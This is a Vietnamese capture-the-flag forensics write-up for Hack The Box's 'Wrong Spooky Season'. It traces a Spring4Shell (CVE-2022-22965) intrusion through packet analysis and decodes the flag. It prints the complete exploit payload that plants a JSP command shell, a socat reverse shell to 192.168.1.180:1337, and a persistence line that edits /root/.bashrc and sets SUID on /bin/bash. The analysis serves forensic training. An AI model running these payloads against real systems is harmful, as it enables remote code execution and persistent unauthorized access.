






> [!NOTE]
> - Mức độ: Rất dễ 
> - Loại: Forensics
> - Url: [Wrong Spooky Season](https://app.hackthebox.com/challenges/Wrong%2520Spooky%2520Season)
> - Tình huống: "Tôi đã bảo họ rằng còn quá sớm và không đúng thời điểm để triển khai một trang web như vậy, nhưng họ cam đoan với tôi rằng chỉ cần thiết kế giao diện cho phù hợp là đủ để ngăn lũ ma quái quấy phá. Tôi đã lầm." Hiện tại, một vụ xâm nhập nội bộ đã xảy ra trong `Spooky Network` (Mạng lưới Ma quái) và bạn cần tìm hiểu xem chuyện gì đã xảy ra. Hãy phân tích lưu lượng mạng để xác định cách thức lũ ma đáng sợ đó đột nhập vào bên trong và những gì chúng đã thực hiện.

> - Lọc ra các gói tin HTTP nhìn qua có thể thấy kẻ tấn công đã cài 1 shell trên web để thực thi lệnh xác định IP kẻ tấn công `192.168.1.180` 



> - Gói tin 353 đã ghi lại hành động khai thác lỗ hổng [CVE-2022–22965](https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORK-2436751), aka Spring4Shell
> - Spring4Shell là một lỗ hổng thực thi mã từ xa (RCE) nghiêm trọng trong Spring Framework (các phiên bản 5.3.0 đến 3.5.17, 5.2.0 đến 5.2.19, các phiên bản cũ hơn không được hỗ trợ). 
> - Spring Framework là một framework mã nguồn mở dùng để xây dựng các ứng dụng web bằng Java và được sử dụng rộng rãi. Spring Boot đơn giản hóa quy trình xây dựng các ứng dụng Spring độc lập, đạt tiêu chuẩn sản xuất mà bạn có thể "chạy ngay".
> - https://learn.snyk.io/lesson/spring4shell/?ecosystem=java
> - Tạo 1 shell tên `4d1c32a56ca15b3.jsp`, khi gửi request đến shell này cung cấp lệnh qua tham số truy vấn cmd

```payload
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=e4d1c32a56ca15b3&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{prefix}i java.io.InputStream in = %{c}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } %{suffix}i&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=e4d1c32a56ca15b3&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```



> - Kẻ tấn công thực thi lệnh `whoami` kiểm tra shell và có được quyền người dùng root (Packet 416)
> - Web này được khởi chạy với quyền root , cần tạo user với quyền thấp hơn 



> - Vì có quyền root kẻ tấn công có thể tải xuống bất kì chương trình gì 
> - Kẻ tấn công tải xuống socat và tạo 1 reverse shell kết nối đến máy tấn công của chúng 

- Tải xuống socat để tạo reverse shell (packet 436)


- Tạo reverse shell kết nối máy tấn công `socat%20TCP:192.168.1.180:1337%20EXEC:bash` ở cổng 1337(Packet 464)



> Kẻ tấn công nhận được kết nối ngược từ máy mục tiêu cổng  45416 -> 1337



> Kẻ tấn công thực thi lệnh trên máy mục tiêu trong đó có 1 chuỗi base64 ngược 

```
id

uid=0(root) gid=0(root) groups=0(root)

groups

root

uname -r

5.18.0-kali7-amd64

cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin

find / -perm -u=s -type f 2>/dev/null

/bin/su
/bin/umount
/bin/mount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh

echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash
ls -lha 

total 20K
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 .
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 ..
-rwxrwx--- 1 root root 1.8K Oct  8 00:04 pom.xml
drwxr-xr-x 3 root root 4.0K Oct 10 17:27 src
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 target
```

> Giải mã chuỗi base64 ngược thu được flag 

```
└─$ echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev | base64 -d
HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```